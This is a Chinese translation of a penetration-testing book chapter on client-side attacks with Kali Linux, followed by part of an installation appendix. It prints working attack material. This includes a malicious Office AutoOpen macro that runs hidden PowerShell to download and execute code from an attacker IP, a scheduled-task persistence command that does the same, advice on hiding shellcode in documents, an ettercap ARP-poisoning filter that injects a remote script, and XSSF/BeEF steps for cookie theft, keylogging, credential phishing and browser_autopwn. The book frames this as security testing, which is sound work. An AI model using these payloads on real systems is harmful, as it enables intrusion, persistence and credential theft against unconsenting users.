# 第十一章：客户端利用

对于攻击者或有效的渗透测试人员来说，最大的挑战是绕过目标的安全控制以实现妥协。当针对位于网络上的系统时，这可能很困难，因为攻击者通常需要绕过防火墙、代理、入侵检测系统和防御深度架构的其他元素。

成功的绕过策略是直接针对客户端应用程序。用户启动与客户端应用程序的交互，使攻击者能够利用用户和应用程序之间已经存在的信任。社会工程方法的使用将增强客户端攻击的成功率。

客户端攻击针对的是通常缺乏安全控制（尤其是防火墙和入侵检测系统）的系统。如果这些攻击成功并建立了持久的通信，客户端设备可以在重新连接到目标网络时用于发动攻击。

在本章结束时，您将学会如何使用以下方法攻击客户端应用程序：

+   敌对脚本攻击（VBScript 和 PowerShell）

+   跨站脚本框架

+   浏览器利用框架

# 使用敌对脚本攻击系统

客户端脚本，如 JavaScript、VBScript 和 PowerShell，是为了将应用程序逻辑和操作从服务器移动到客户端计算机而开发的。从攻击者或测试者的角度来看，使用这些脚本有几个优点，如下所示：

+   它们已经是目标自然操作环境的一部分；攻击者不需要将大型编译器或其他辅助文件（如加密应用程序）传输到目标系统。

+   脚本语言旨在促进计算机操作，如配置管理和系统管理。例如，它们可以用于发现和更改系统配置、访问注册表、执行程序、访问网络服务和数据库，以及通过 HTTP 或电子邮件传输二进制文件。这些标准的脚本操作可以很容易地被测试人员采用使用。

+   由于它们是操作系统环境的一部分，它们通常不会触发防病毒警报。

+   使用脚本很容易，因为编写脚本只需要一个简单的文本编辑器。使用脚本发动攻击没有障碍。

历史上，JavaScript 是发动攻击的脚本语言选择，因为它在大多数目标系统上广泛可用。由于 JavaScript 攻击已经被充分描述，我们将重点介绍 Kali 如何利用更新的脚本语言（VBScript 和 PowerShell）进行攻击。

## 使用 VBScript 进行攻击

**Visual Basic Scripting Edition**（**VBScript**）是由微软开发的**Active Scripting 语言**。它旨在成为一个轻量级的、Windows 本地的语言，可以执行小型程序。自 Windows 98 以来，VBScript 已经默认安装在每个桌面版的 Microsoft Windows 上，使其成为客户端攻击的一个绝佳目标。

要使用 VBScript 发动攻击，我们将从命令行调用 Metasploit 的`msfpayload`。

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意`V`表示输出将是一个 VBS 宏脚本。输出将显示为一个具有两个特定部分的文本文件，如下面的屏幕截图所示：


要使用脚本，打开 Microsoft Office 文档并创建一个宏（具体命令将取决于所使用的 Microsoft Windows 版本）。将以下信息框中给出的文本的第一部分（从`Sub Auto_Open()`到最后的`End Sub`）复制到宏编辑器中，并保存为启用宏。

```
'**************************************************************
'*
'* MACRO CODE
'*
'**************************************************************

Sub Auto_Open()
    Ffqsm12
    End Sub

// Additional code removed for clarity

Sub Workbook_Open()
    Auto_Open
End Sub
```

接下来，将 Shellcode 复制到实际文档中。Shellcode 的部分摘录如下屏幕截图所示：


Shellcode 可识别为可用于执行攻击的脚本，因此您可能希望通过减小字体大小并使颜色与文档的背景匹配来隐藏或混淆 Shellcode。

攻击者必须在 Metasploit 上设置监听器。在命令提示符下输入`msfconsole`后，攻击者通常会输入以下命令，并设置主机、端口和有效载荷的选项；此外，攻击者还将配置连接自动迁移到更稳定的`explorer.exe`进程，如下面的命令行所示。

```
msf>use exploit/multi/handler 
msf>set lhost 192.168.43.130
msf>set lport 4444
msf>set payload windows/meterpreter/reverse_tcp
msf>set autorunscript migrate -n explorer.exe
msf >exploit 

```

当文件发送到目标时，打开时会弹出一个安全警告；因此，攻击者将使用社会工程学来迫使预期的受害者选择**启用**选项。最常见的方法之一是将宏嵌入已配置为玩游戏的 Microsoft Word 文档或 Excel 电子表格中。

打开文档将创建一个反向 TCP shell 返回给攻击者，允许攻击者确保与目标的持久连接并进行后期利用活动。

扩展这种攻击方法，我们可以使用位于`/usr/share/metasploit-framework/tools`的`exe2vba.rb`将任何可执行文件转换为 VBScript。

例如，首先使用 Metasploit 框架创建一个后门。注意`X`表示后门将被创建为一个可执行文件（`attack.exe`），如下面的屏幕截图所示：


接下来，使用以下命令执行`exe2.vba`将可执行文件转换为 VBScript（确保使用正确的路径名）：

```
# ruby exe2vba.rb attack.exe  attack.vbs
[*] Converted 73802 bytes of EXE into a VBA script

```

这将允许将可执行文件放置在一个 Microsoft 启用宏的文档中并发送给客户端。VBScript 可用于执行反向 shell 并更改系统注册表，以确保 shell 保持持久。我们发现这种类型的攻击是绕过网络安全控制并保持与受保护网络连接的最有效方式之一。

从攻击者的角度来看，使用基于 VBScript 的漏洞利用有一些显著的优势（这仍然是一个强大的工具）。然而，它的使用正在迅速被更强大的脚本语言 PowerShell 所取代。

## 使用 Windows PowerShell 进行攻击系统

Windows PowerShell 是一个命令行 shell 和脚本语言，旨在用于系统管理。基于.NET 框架，它扩展了 VBScript 中可用的功能。语言本身是相当可扩展的。由于它是建立在.NET 库上的，你可以将来自诸如 C#或 VB.NET 等语言的代码合并进来。你还可以利用第三方库。尽管它是可扩展的，但它是一种简洁的语言。需要超过 100 行代码的 VBScript 可以减少到只有 10 行 PowerShell！

也许，PowerShell 最好的特性是它默认情况下在大多数现代基于 Windows 的操作系统（Windows 7 及更高版本）上可用，并且无法被移除。

我们将使用 Metasploit Framework 附带的 PowerShell 脚本来支持 Kill Chain 的攻击阶段。

为了发动攻击，我们将使用 Metasploit Framework 的 PowerShell Payload Web Delivery 模块。该模块的目的是快速在目标系统上建立会话。攻击不会写入磁盘，因此不太可能触发客户端防病毒软件的检测。攻击的启动和可用的模块选项如下截图所示：


Metasploit Framework 将生成一个可以嵌入文档并用于发动攻击的一行宏，如下示例代码所示：

```
 Sub AutoOpen()
 Call Shell("PowerShell.exe -w hidden -nop -ep bypass -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.1.102:4444/boom'))"",1)
 End Sub

```

在攻击完成之前，攻击者必须为传入 shell 准备一个监听器（`URIPATH`由 Metasploit 随机生成；确保为监听器设置正确的`URIPATH`）。创建监听器的命令如下：

```
 msf> use exploit/windows/misc/psh_web_delivery
 msf exploit(psh_web_delivery) > set SRVHOST 192.168.1.102
 msf exploit(psh_web_delivery) > set URIPATH boom
 msf exploit(psh_web_delivery) > exploit

```

成功的攻击将在攻击者的系统上创建一个交互式 shell。

### 提示

可以使用`schtask`命令使`psh_web_delivery`持久化。以下命令将创建一个计划任务`MSOfficeMngmt`，该任务将在登录时实现`powershell.exe`（默认情况下位于`Windows\system32`目录中）：

```
schtasks /create /tn MSOfficeMngmt /tr "powershell.exe -WindowsStyle hidden -NoLogo -NonInteractive -ep -bypass -nop -c 'IEX ((new-object net.webclient).downloadstring (''http://192.168.1.104:4444/boom'''))'" /sc onlogon /ru System

```

Kali 的 PowerSploit 目录中可以找到用于支持后期利用活动的额外 PowerShell 脚本。尽管 PowerShell 具有灵活性，但它也有一些缺点。

例如，如果最终用户在应用持久性机制之前关闭包含宏的文档，则连接将丢失。

更重要的是，诸如 VBScript 和 PowerShell 之类的脚本只对 Microsoft 环境有用。为了扩大客户端攻击的范围，我们需要寻找一个通用的客户端漏洞，无论其操作系统环境如何都可以利用。这种漏洞的一个特例就是跨站脚本攻击。

# 跨站脚本框架

**跨站脚本**（**XSS**）漏洞据报道是网站中发现的最常见的可利用漏洞。据估计，它们存在于高达 80％的所有应用程序中。

XSS 漏洞发生在应用程序（通常是基于 Web 的）违反了被称为**同源策略**的信任概念，并显示了未经消毒以删除恶意语句的用户提供的内容。

至少有两种主要类型的 XSS 漏洞：**非持久**和**持久**。

最常见的类型是非持久或反射漏洞。当客户端提供的数据立即被服务器用于显示响应时，就会发生这种漏洞。这种漏洞的攻击可以通过电子邮件或第三方网站提供看似引用受信任网站但包含 XSS 攻击代码的 URL 来发生。如果受信任的网站容易受到这种特定攻击的影响，执行该链接可能导致受害者的浏览器执行一个恶意脚本，可能导致妥协。

持久（存储）XSS 漏洞发生在攻击者提供的数据被服务器保存，然后在用户浏览过程中永久显示在受信任的网页上。这通常发生在允许用户发布 HTML 格式消息的在线留言板和博客上。攻击者可以在网页上放置一个对传入用户不可见的恶意脚本，但会危害访问受影响页面的访客。

Kali Linux 上存在一些工具用于查找 XSS 漏洞，包括 xsser 和各种漏洞扫描器。然而，有一些工具允许测试人员充分利用 XSS 漏洞，展示了这种弱点的严重性。

**跨站脚本框架**（**XSSF**）是一个多平台安全工具，利用 XSS 漏洞与目标创建通信渠道，支持包括：

+   对目标浏览器进行侦察（指纹识别和先前访问的 URL）、目标主机（检测虚拟机、获取系统信息、注册表键和无线键）以及内部网络。

+   向目标发送警报消息弹出。这种简单的“攻击”可以用来演示 XSS 漏洞，但更复杂的警报可以模仿登录提示并捕获用户身份验证凭据。

+   窃取使攻击者能够冒充目标的 Cookie。

+   将目标重定向以查看不同的网页。敌对的网页可能会自动下载一个漏洞利用到目标系统上。

+   加载 PDF 文件或 Java 小程序到目标，或从 Android 移动设备中窃取数据，如 SD 卡内容。

+   发动 Metasploit 攻击，包括`browser_autopwn`，以及拒绝服务攻击。

+   发动社会工程攻击，包括自动完成窃取、点击劫持、Clippy、假闪存更新、网络钓鱼和标签窃取。

此外，**XSSF 隧道**功能允许攻击者冒充受害者并使用其凭据和会话浏览网站。这可以是访问内部企业内部网的有效方法。

API 有很好的文档，允许轻松创建新的攻击模块。由于它是用 Ruby 编写的，API 与 Metasploit Framework 集成，允许攻击者发动额外的攻击。

要使用 XSSF，必须安装并配置以支持以下步骤的攻击：

1.  XSSF 不随 Kali 一起提供。首先，用户必须打开一个终端窗口，并使用以下命令设置适当的目录：

```
root@kali:~# cd /opt/metasploit/apps/pro/msf3

```

1.  使用以下命令安装 XSSF：

```
svn export http://xssf.googlecode.com/svn/trunk ./ --force 

```

确保使用`svn export`而不是`svn checkout`，因为后者的命令会破坏现有的 MSF `svn`文件。成功安装的摘录如下截图所示：


1.  从 Metasploit Framework 控制台，使用`load xssf`命令加载 XSSF 插件，如下截图所示：

1.  通过输入`helpxssf`来识别 XSSF 命令，如下截图所示：

1.  从控制台，使用以下命令访问与插件相关的 URL：

```
msf>xssf_urls

```

前一个命令的执行如下截图所示，可以看到识别出了几个 URL：


最重要的 URL 是位于本地主机上的 XSSF 服务器。还识别出了其他几个 URL，包括以下内容：

+   `通用 XSS 注入`：这是您试图让受害者点击或执行的目标。

+   `XSSF 测试页面`：XSSF 提供对易受 XSS 攻击的本地测试页面的访问。这可以用来在实际测试期间验证攻击和结果。

+   `XSSF 隧道代理`：XSSF 允许攻击者在保留其安全身份的同时使用受损主机的身份进行浏览。

+   `XSSF 日志页面`：记录攻击和接收到的信息。不幸的是，日志页面提供了一个非常黑暗的背景，很难看到返回的信息。在测试期间，我们通常通过命令行访问日志信息，这样更清晰，并且可以进行脚本化。

+   `XSSF 统计页面`。

+   `XSSF 帮助页面`。

我们将使用易受攻击的 Web 应用程序**Mutillidae**来演示 XSSF。Mutillidae 是 Metasploitable 项目的一部分，可以从[`sourceforge.net/projects/metasploitable/files/Metasploitable2/`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/)下载。有关安装此易受攻击目标的注意事项，请参阅附录*安装 Kali Linux*。

1.  一旦打开 Mutillidae，导航到博客页面；这个页面已知容易受到 XSS 攻击（您可以使用漏洞扫描工具对 Mutillidae 进行扫描，以识别其他潜在的插入点）。

要对目标客户端发动攻击，不要在博客中输入常规帖子。相反，输入包含目标 URL 和端口的脚本元素：

```
<script src="img/loop?interval=5"></script>
```

下面的截图显示了攻击代码在目标网站的博客页面上的放置。


当这个被输入并受害者点击**保存博客条目**时，他们的系统将被攻击。从 Metasploit Framework 控制台，测试人员可以使用`xssf_victims`和`xssf_information`命令获取有关每个受害者的信息。执行`xssf_victims`命令后，将显示有关每个受害者的信息，如下截图所示：


此时最常见的 XSS 攻击是向客户端发送简短且相对无害的消息或*警报*。使用 Metasploit Framework，可以通过输入以下命令相对简单地实现：

```
msf > use auxiliary/xssf/public/misc/alert
msf auxiliary(alert) > show options

```

在审查选项后，可以从命令行快速发送警报，如下截图所示：


受害者将看到一条消息，如下面的截图所示：



通常，大多数测试人员和他们的客户使用这样简单的警报消息来验证跨站脚本。这证明了“漏洞”存在。

然而，简单的警报缺乏情感冲击。它们经常识别出真正的漏洞，但客户端并不会因为警报消息被认为不构成重大威胁而对漏洞做出响应和调解。幸运的是，XSSF 允许测试人员“加大赌注”，展示更复杂和危险的攻击。

XSSF 可以使用以下命令来窃取 cookie：

```
msf> use auxiliary/xssf/public/misc/cookie
msfauxillary(cookie) > show options (ensure all needed options selected)
msfauxillary(cookie) > run

```

`run`命令的执行如下截图所示：



攻击完成后，可以通过查看 XSSF 日志页面的结果或直接使用命令来找到 cookie，如下截图所示：


`auxiliary/xssf/public/misc`中的一些其他有用的命令包括：

+   `check_connected`：此命令检查受害者是否已打开任何社交网络站点（Gmail、Facebook 或 Twitter）

+   `csrf`：它发动跨站点请求伪造攻击

+   `keylogger`：此命令在客户端上调用键盘记录器

+   `load_applet`和`load_pdf`：这些命令在客户端上加载恶意的 Java 小程序和 PDF 文件，并调用它们来启动预先配置的恶意软件

+   `redirect`：将客户端重定向到指定的网页

+   `webcam_capture`：此命令从客户端的网络摄像头中捕获图像

这只是一个不完整的列表，但它显示了该工具的发展程度。此外，还有一些用于网络扫描和发动拒绝服务攻击的模块，以及一些用于确保攻击完成后持久性的模块。

XSSF 还可以与 ettercap 一起用于破坏内部网络。例如，ettercap 可以用于将`</head>`数据替换为指向恶意页面的链接，方法是在名为`attack`的过滤器中放置以下代码：

```
if (ip.proto == TCP && tcp.src == 80) {
  if (search(DATA.data, "</head>")) {
    replace("</head>", "</head><script src=\"http://192.168.43.130:8888/test.html\"></script> ");
  }
}
```

然后必须使用以下命令将过滤脚本转换为二进制文件：

```
 etterfilter attack.filter –o attack.ef

```

要对网络上的所有用户发动此攻击，请使用以下命令执行`ettercap`：

```
 ettercap –T –q –F attack.ef –M ARP // //

```

XSSF，特别是当集成到 Metasploit Framework 中时，是利用 XSS 漏洞的非常强大的工具。然而，最近出现了一个新星，可以帮助您实现类似的攻击：浏览器利用框架。

# 浏览器利用框架-BeEF

BeEF 是一个专注于特定客户端应用程序的利用工具：Web 浏览器。

BeEF 允许攻击者使用 XSS 或 SQL 注入等攻击将 JavaScript 代码注入到易受攻击的 HTML 代码中。这种利用代码被称为**hook**。当浏览器执行 hook 时，就会实现妥协。浏览器（**zombie**）连接到 BeEF 应用程序，该应用程序向浏览器提供 JavaScript 命令或模块。

BeEF 的模块执行以下任务：

+   指纹识别和受损浏览器的侦察。它还可以用作评估存在于不同浏览器下的利用和其行为的平台。

### 注意

请注意，BeEF 允许我们在同一客户端上连接多个浏览器，以及跨域连接多个客户端，然后在利用和后利用阶段对它们进行管理。

+   对目标主机进行指纹识别，包括虚拟机的存在。

+   检测客户端上的软件（仅限 Internet Explorer）并获取`Program Files`和`Program Files（x86）`目录中的目录列表。这可能会识别其他可以利用以巩固我们对客户端的控制的应用程序。

+   使用受损系统的网络摄像头拍照；这些照片在报告中具有重要影响。

+   搜索受害者的数据文件并窃取可能包含身份验证凭据（剪贴板内容和浏览器 cookie）或其他有用信息的数据。

+   实施浏览器按键记录。

+   使用 ping 扫描和指纹网络设备进行网络侦察，并扫描开放端口。

+   从 Metasploit Framework 发动攻击。

+   使用隧道代理扩展攻击内部网络，利用受损的 Web 浏览器的安全权限。

因为 BeEF 是用 Ruby 编写的，所以它支持多个操作系统（Linux，Windows 和 OS X）。更重要的是，它很容易定制 BeEF 中的新模块并扩展其功能。

## 安装和配置浏览器利用框架

BeEF 不是 Kali 发行版的一部分，但已经打包了所需的依赖项，以支持在 Kali 中进行自动安装。要安装 BeEF，请使用以下命令：

```
root@kali:~# apt-get install beef-xss

```

BeEF 将安装在`/usr/share/beef-xss`目录中。默认情况下，它没有与 Metasploit Framework 集成。要集成 BeEF，您需要执行以下步骤：

1.  编辑位于`/usr/share/beef-xss/config.yaml`的主配置文件以读取：

```
metasploit:
  enable:true
```

1.  编辑位于`/usr/share/beef-xss/extensions/metasploit/config.yml`的文件。您需要编辑`host`，`callback_host`和`os 'custom'，path`行，以包括您的 IP 地址和 Metasploit Framework 的位置。正确编辑的`config.yml`文件如下屏幕截图所示：

1.  启动`msfconsole`，并加载`msgrpc`模块，如下面的屏幕截图所示。确保您也包括密码：

1.  使用以下命令启动 BeEF：

```
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss/~# ./beef

```

1.  通过查看程序启动时生成的消息来确认启动。它们应该表明发生了**与 Metasploit 的成功连接**，并伴随着 Metasploit 利用已被加载的指示。成功的程序启动如下屏幕截图所示：

### 提示

当您重新启动 BeEF 时，请使用`-x`开关重置数据库。

在此示例中，BeEF 服务器正在`192.168.222.129`上运行，而“hook URL”（我们希望目标激活的 URL）是`192.168.222.129:80/hook.js`。

BeEF 的大部分管理和管理是通过 Web 界面完成的。要访问控制面板，请转到 `http://<IP 地址>:3000/ui/panel`。

默认的登录凭据是 `用户名：beef` 和 `密码：beef`，如下面的屏幕截图所示，除非这些在 `config.yaml` 中被更改。


# BeEF 浏览器的演示

当启动 BeEF 控制面板时，它将呈现 **入门** 屏幕，其中包含到在线站点的链接，以及可以用来验证各种攻击的演示页面。BeEF 控制面板如下屏幕截图所示：


如果您钩住了一个受害者，界面将分为两个面板：

+   在面板的左侧 **Hooked Browsers** 中，测试人员可以看到列出的每个连接的浏览器，以及有关其主机操作系统、浏览器类型、IP 地址和已安装插件的信息。因为 BeEF 设置了一个 cookie 来识别受害者，它可以参考这些信息并维护一个受害者的一致列表。

+   面板的右侧是所有操作的发起和结果的获取位置。在 **Commands** 选项卡中，我们看到了一个分类的存储库，其中列出了可以针对钩住的浏览器使用的不同攻击向量。这个视图会根据每个浏览器的类型和版本而有所不同。

BeEF 使用颜色编码方案来描述命令针对特定目标的可用性。使用的颜色如下：

+   **绿色**：表示命令模块针对目标有效，并且应该被受害者检测到

+   **橙色**：表示命令模块针对目标有效，但可能会被受害者检测到

+   **灰色**：表示命令模块尚未针对目标进行验证

+   **红色**：表示命令模块不针对目标有效。它可以使用，但其成功不被保证，并且使用可能被目标检测到

要注意这些指标，因为客户端环境的变化可能会使一些命令无效，或者可能导致其他意外的结果。

要开始攻击或钩住受害者，我们需要让用户点击 hook URL，其形式为 `<IP 地址>:<端口>/hook.js`。这可以通过各种方式实现，包括：

+   原始的 XSS 漏洞

+   中间人攻击（尤其是使用 **BeEF Shank**，**ARP** 欺骗工具，专门针对内部网络上的内部网站）

+   社会工程攻击，包括 BeEF 网页克隆和大规模邮件发送，使用 iFrame 冒充的自定义 hook 点，或者 QR 代码生成器

一旦浏览器被钩住，它被称为僵尸。从命令界面左侧的 **Hooked Browsers** 面板中选择僵尸的 IP 地址，然后参考可用的命令。

在下面的屏幕截图中显示的示例中，钩住的浏览器有几种不同的攻击和管理选项可用。其中最容易使用的攻击选项之一是社会工程学 Clippy 攻击。

当从 **Commands** 下的 **Module Tree** 中选择 **Clippy** 时，右侧会启动一个特定的 **Clippy** 面板，如下面的屏幕截图所示。它允许您调整图像、传递的文本以及如果受害者点击提供的链接将在本地启动的可执行文件。默认情况下，自定义文本通知受害者他们的浏览器已过时，提供更新，下载一个可执行文件（非恶意），然后感谢用户进行升级。所有这些选项都可以由测试人员更改。


当 Clippy 被执行时，受害者将在他们的浏览器上看到如下截图所示的消息：



这可以是一个非常有效的社会工程攻击。在与客户进行测试时，我们成功率（客户下载了一个非恶意的指示文件）约为 70%。

提示模块的工作方式类似。它不是向受害者的浏览器发送简单的警报，而是发送一个通知请求，提示受害者输入数据。在许多情况下，如果受害者被提示输入未定义的数据，他们会自动重新输入他们的密码。提示可以要求特定的数据，或者可以用来引导受害者到一个包含恶意软件的系统补丁的网站上下载。下面的截图显示了获取用户密码的最简单和最有效的攻击之一。


其中一个更有趣的攻击是 Pretty Theft，它要求用户提供他们在流行网站上的用户名和密码。例如，测试人员可以配置 Facebook 的 Pretty Theft 选项，如下面的截图所示：



当攻击执行时，受害者会看到一个弹出窗口，看起来是合法的，如下面的截图所示：



在 BeEF 中，测试人员可以从**命令结果**列的**数据**字段中查看攻击的历史记录，并得出用户名和密码，如下面的截图所示：


## 将 BeEF 和 Metasploit 攻击集成

BeEF 和 Metasploit 框架都是使用 Ruby 开发的，可以一起操作来利用目标。因为它使用客户端和服务器端的指纹识别来描述目标，`browser_autopwn`是最成功的攻击之一。

一旦目标被钩住，启动 Metasploit 控制台，并使用以下命令配置攻击：

```
msf > use auxiliary/server/browser_autopwn
msf auxiliary(browser_autopwn) > set LHOST 192.168.43.130
msf auxiliary(browser_autopwn) > set PAYLOAD_WIN32
  windows/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > set PAYLOAD_JAVA
  java/meterpreter/reverse_tcp
msf auxiliary(browser_autopwn) > exploit 

```

等待所有相关的漏洞加载完成。在下面的截图示例中，加载了 18 个漏洞。还要注意攻击的目标 URL。在这个例子中，目标 URL 是`http://192.168.43.130:8080/ICprp4Tnf4Z`：


有几种方法可以指导浏览器点击目标 URL，但是，如果我们已经钩住了目标浏览器，我们可以使用 BeEF 的`redirect`功能。在 BeEF 控制面板中，转到**浏览器** | **钩住的域** | **重定向浏览器**。在提示时，使用此模块指向目标 URL，然后执行攻击。

在 Metasploit 控制台中，您将看到针对目标连续启动的攻击。成功的攻击将打开一个 Meterpreter 会话，如下面的截图所示：


要查看与受损目标的打开会话列表，请键入`sessions -l`。要与特定会话进行交互连接，例如会话 1，键入`sessions -i 1`。

## 使用 BeEF 作为隧道代理

隧道是将有效载荷协议封装在传递协议（如 IP）内的过程。使用隧道，您可以在网络上传输不兼容的协议，或者可以绕过配置为阻止特定协议的防火墙。BeEF 可以配置为充当模拟反向 HTTP 代理的隧道代理：浏览器会话成为隧道，而被钩住的浏览器成为出口点。当内部网络被入侵时，这种配置非常有用，因为隧道代理可以用于：

+   在受害者的浏览器中浏览经过身份验证的站点的安全上下文（客户端 SSL 证书、身份验证 cookie、NTLM 哈希等）

+   使用受害者浏览器的安全上下文来爬取挂钩域

+   促进工具的使用，如 SQL 注入

要使用隧道代理，请选择要定位的挂钩浏览器，右键单击其 IP 地址。在弹出框中，如下截图所示，选择**使用作为代理**选项：



配置浏览器以将 BeEF 隧道代理作为 HTTP 代理使用。默认情况下，代理的地址是`127.0.0.1`，端口是 6789。

如果您使用配置为 HTTP 代理的浏览器访问目标网站，所有原始请求/响应对将存储在 BeEF 数据库中，可以通过导航到**Rider** | **History**进行分析（日志摘录如下截图所示）。


攻击完成后，有一些机制可以确保保持持久连接，包括：

+   **确认关闭**：当受害者尝试关闭选项卡时，该模块会弹出一个**确认导航 - 您确定要离开此页面**的弹出窗口。如果用户选择**离开此页面**，它将不起作用，并且**确认导航**弹出窗口将继续出现。

+   **弹出模块**：这在`config.yaml`中进行了配置。该模块尝试打开一个小的弹出窗口，以保持浏览器挂钩，如果受害者关闭主浏览器选项卡。这可能会被弹出窗口拦截器阻止。

+   **iFrame 键盘记录器**：重写网页上的所有链接，以覆盖原始页面高度和宽度的 iFrame。为了最大的有效性，它应该附加到 JavaScript 键盘记录器上。理想情况下，您会加载挂钩域的登录页面。

+   **浏览器中间人**：该模块确保每当受害者单击任何链接时，下一个页面也将被挂钩。避免这种行为的唯一方法是在地址栏中键入新地址。

最后，尽管 BeEF 提供了一系列优秀的模块来执行侦察，以及杀伤链的利用和后利用阶段，但已知的 BeEF 默认活动（/hook.js 和服务器标头）被用于检测攻击，降低了其有效性。测试人员将不得不使用诸如 Base64 编码、空格编码、随机化变量和删除注释等技术来混淆他们的攻击，以确保将来的完整有效性。

# 总结

在本章中，我们研究了针对通常与受保护网络隔离的系统的攻击。这些客户端攻击侧重于特定应用程序的漏洞。我们审查了敌对脚本，特别是 VBScript 和 PowerShell，这些脚本在测试和破坏基于 Windows 的网络方面特别有用。然后，我们研究了跨站脚本框架，它可以利用 XSS 漏洞，以及 BeEF 工具，它针对 Web 浏览器的漏洞。XSSF 和 BeEF 都与 Kali 上的侦察、利用和后利用工具集成，提供了全面的攻击平台。

本章结束了《精通 Kali Linux 高级渗透测试》。我们希望这本书能帮助您了解攻击者如何使用 Kali 等工具来破坏网络，以及您如何使用相同的工具来了解网络的漏洞并在您自己的网络受到损害之前加以调解。

# 附录 A. 安装 Kali Linux

Kali Linux 是一个基于 Linux 的操作系统，用作支持数百种不同应用程序的平台，用于审计网络的安全性。其复杂性与安装和使用它的多种方法相匹配。本章将涵盖安装 Kali 时需要考虑的一些因素，并将重点放在如何尽快启动和运行安全的虚拟机上。它还将探讨如何建立和维护一个廉价的站点，以测试本书中涵盖的材料。

# 下载 Kali Linux

有多种选项可用于下载和安装 Kali Linux。在本出版物发布时，最新版本是 1.06；但是，1.07 版本即将发布。当前版本可从官方网站([www.kali.org/downloads/](http://www.kali.org/downloads/))以 32 位和 64 位编译版本下载。

**Offensive Security**提供了预配置的**高级 RISC 机器**（**ARM**）处理器的版本（例如，Galaxy Note 10.1、Raspberry Pi 和 Samsung Chromebooks）可供下载；支持 ARMEL 和 ARMHL 平台。此外，预制的 VMware 映像也可在[`www.offensive-security.com/kali-llnux-vmware-arm-image-download/`](http://www.offensive-security.com/kali-llnux-vmware-arm-image-download/)上在线获取。

下载适当的映像后，请确保 SHA1 校验和文件是由 Kali 生成的（它将使用官方 Kali 加密密钥进行签名，可在线获取以验证下载的真实性），并检查 SHA1 校验和以验证映像的完整性。验证工具内置于 Linux 和 OSX 操作系统中；但是，您将不得不使用第三方工具，如**hashtab**（[`www.implbits.com/HashTab/HashTabWindows.aspx`](http://www.implbits.com/HashTab/HashTabWindows.aspx)）用于 Windows 操作系统。

如果您希望构建 Kali 的自定义版本，特别是具有备用桌面或工具集的版本，可以使用[`docs.kali.org/live-build/generate-updated-kali-iso`](http://docs.kali.org/live-build/generate-updated-kali-iso)上提供的 live-build 脚本。

# Kali Linux 的基本安装

一旦您获得了适当的 Kali Linux 发行版，就必须安装以供使用。以下安装选项可用：

+   安装到 i386、AMD64 或 ARM 系统硬盘。Kali Linux 将是设备启动时唯一的主机操作系统。

+   双启动系统。通常，在使用 MS Windows 操作系统时选择此选项。在启动时，用户可以选择将系统启动为 Kali Linux 或 Windows 操作系统。这比直接安装 Kali 到硬盘提供了更多的灵活性；但是，在两个系统之间切换会变得困难。

+   直接安装到 DVD 驱动器或 USB 设备。如果主机系统可以配置为从 USB 设备启动，则这是非常有用的；但是，如果 USB 设备需要是*持久的*（在测试过程中对基于操作系统、应用程序和数据所做的所有更改都将被保留），则需要进行额外的配置更改。

+   使用 VMware 或 VirtualBox 等产品安装为虚拟机。我们发现这是支持渗透测试最灵活的选项。

+   Kali 支持两种类型的网络安装——**迷你 ISO**安装和**网络 PXE**安装。迷你 ISO 在系统上安装了一个缩减版的 Kali 发行版，然后依赖快速网络连接来安装其余所需的应用程序，以获得有效的最终产品。网络 PXE 安装在引导过程中支持终端（没有 CD-ROM 和 USB 端口），获取 IP 地址信息并安装 Kali。

+   现在可以从云中使用 Kali-Amazon EC2 市场提供了 Kali 的 64 位最小镜像（[`aws.amazon.com/marketplace/pp/B00HW50E0M`](https://aws.amazon.com/marketplace/pp/B00HW50E0M)）。Kali 镜像是免费的，用户只需支付常规的 AWS 使用费。

### 提示

由于亚马逊的规定，此版本的 Kali 默认不使用 root 帐户。一旦您从亚马逊获取了 SSH 密钥，您必须以用户身份连接到 Kali 实例，然后切换到 root。您可能需要下载其他工具来支持测试。最后，您必须通知亚马逊，它正在用于合法的安全测试，而不是作为攻击工具。

## 将 Kali Linux 安装到虚拟机

在本书中，Kali 被配置为虚拟机（VM）。在进行渗透测试时，虚拟机具有以下优势：

+   可以开发和维护一个常见的测试虚拟机，确保测试人员熟悉工具集及其对典型目标系统的影响。

+   虚拟机可以快速在主机和客户操作系统之间切换，允许测试人员在 Windows 和 Linux 平台之间移动，以找到测试的最佳工具组合。

+   虚拟机是可移动的-它们可以移动到不同的系统和操作平台。

+   虚拟机可以保留在库中以便进行回归测试。在使用一组工具验证网络或系统的安全性后，测试人员经常被问及他们的方法和工具是否会检测到测试时存在的特定漏洞。测试人员可以返回并使用存档的虚拟机重新测试漏洞，以确定是否会被检测到或网络是否处于受攻击的风险中。

虽然可以下载预制的虚拟机，但大多数测试人员使用经过验证的 ISO 镜像创建自己的虚拟机（将 Kali 安装到虚拟机的过程几乎与将其安装到硬盘或媒体（如 USB 键）相同）。Kali 支持 VMware 和 Oracle VirtualBox 虚拟机。

总的来说，该过程简单且由应用程序向导引导您完成。例如，使用 VMware 时，该过程如下：

1.  选择**创建新虚拟机**图标以创建新的虚拟机。

1.  选择使用 ISO 镜像创建虚拟机。

1.  选择客户操作系统。

1.  设置 ISO 镜像的名称和位置。

1.  设置磁盘空间；最小使用量应为 12 GB，但至少要留出 20-25 GB。至少应为虚拟机提供 1 GB 内存；但是，如果您要测试大型网络并将使用多线程工具，则可能希望将其增加至至少 3 GB。

1.  审查硬件配置。

### 提示

确保虚拟机配置为仅对主机操作系统可见，特别是如果尚未更新。如果您正在配置虚拟机用作目标，请注意，如果它对互联网可见，您的测试平台可能会受到外部攻击者的威胁。

1.  启动虚拟机。引导菜单将提供几个选项；选择**图形安装**。

1.  按照提示选择正常语言、时区、主机名和设置 root 密码。

1.  在设置磁盘分区时，如果不使用双引导选项，可以将整个分区设置为虚拟磁盘。建议您在此时选择此选项进行全盘加密。

1.  虚拟机应用程序将完成分区，将更改写入磁盘，然后安装系统文件。在提示输入一些额外的配置信息后，虚拟机将重新启动。

1.  此时，系统已经启动。按照第一章中描述的配置支持渗透测试，*开始使用 Kali Linux*。

### 提示

Kali 的预配置分发通常依赖于默认的用户名和密码，并可能具有预生成的 SSH 主机密钥。这些应尽快更改。

## 全盘加密和清除主密钥

